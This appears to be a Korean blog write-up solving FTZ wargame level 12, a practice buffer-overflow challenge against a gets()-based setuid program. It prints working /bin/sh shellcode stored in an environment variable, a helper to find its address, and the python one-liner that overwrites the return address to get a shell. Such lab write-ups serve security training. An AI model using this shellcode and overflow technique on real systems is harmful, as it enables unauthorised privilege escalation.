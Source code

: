 ```yaml
---
title:  "[FTZ] level 12"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-21 00:02:29

---
```


# level 12

**level12 / it is like this**

힌트

![image](https://user-images.githubusercontent.com/69203345/144245866-c8d46fca-5e50-46b0-a53c-bcc3ecb9335c.png)

![image](https://user-images.githubusercontent.com/69203345/144246006-4d8af91c-7b7c-4d3a-b0cf-305568326083.png)

level 11 로 들어간줄...ㅋㅋㅋㅋㅋㅋㅋㅋㅋㅋ  

이번엔 gets로 받는다  
gets함수 역시 문자열의 길이를 확인하지 않기 때문에 버퍼오버플로우에 취약하다

![image](https://user-images.githubusercontent.com/69203345/144246984-77f63a82-415a-435d-9dea-c6c753a425b8.png)

일단 해보자  

0x08048473 <main+3>: sub esp,0x108  
char str[256]의 0x100 공간을 확보한후 dummy 0x8만큼 확보했다  
총 264byte 공간확보

0x08048479 <main+9>: sub esp,0x8  
총 272byte 공간확보

아마 스택의 구조는 level11과 같지 않을까 싶다

높은주소

[ RET(4) ]  
[ SFP(4) ]  
[ dummy(8) ]  
[ str(256) ]  

낮은주소

이번에는 환경변수로 해결  
tmp 폴더로 이동후 아래 명령어 작성

사용할 쉘 코드 주소값을 환경변수로 등록
>$export EGG=`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

환경변수 SHELLCODE의 주소 값 확인
>$echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); } ' > getenv.c

>$gcc getenv.c -o getenv\\
$./getenv

![image](https://user-images.githubusercontent.com/69203345/144251580-8eec3861-c515-4b70-8ef4-c8f0c8f71a02.png)


0xbffffc8e 에 있다고 한다  
0xbffffc8e를 리턴 주소로 잡고 bof 시도  

gets는 입력 대기 상태에서 값을 입력받으므로 
>(python -c 'print"\x90"*268+"\x8e\xfc\xff\xbf"'; cat) | ./attackme

python프로그램을 사용하여 \x90(1byte)를 268만큼 출력 해서 SFP까지 덮음  
RET주소에 ./getenv를 통해 출력된 쉘 코드 주소 값을 채워 넣음

![image](https://user-images.githubusercontent.com/69203345/144253095-60ad4622-522b-4515-a771-a00d03f8044a.png)

환경변수를 이용하면 깔끔하네

다음!
